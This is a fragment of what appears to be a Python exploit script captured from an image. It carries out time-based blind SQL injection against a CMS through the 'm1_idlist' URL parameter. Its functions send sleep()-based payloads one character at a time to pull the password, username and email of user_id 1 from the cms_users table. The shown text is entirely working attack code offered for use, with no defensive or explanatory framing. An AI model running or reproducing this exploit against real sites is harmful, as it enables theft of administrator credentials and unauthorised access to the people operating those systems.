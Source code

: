 ```sh
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

```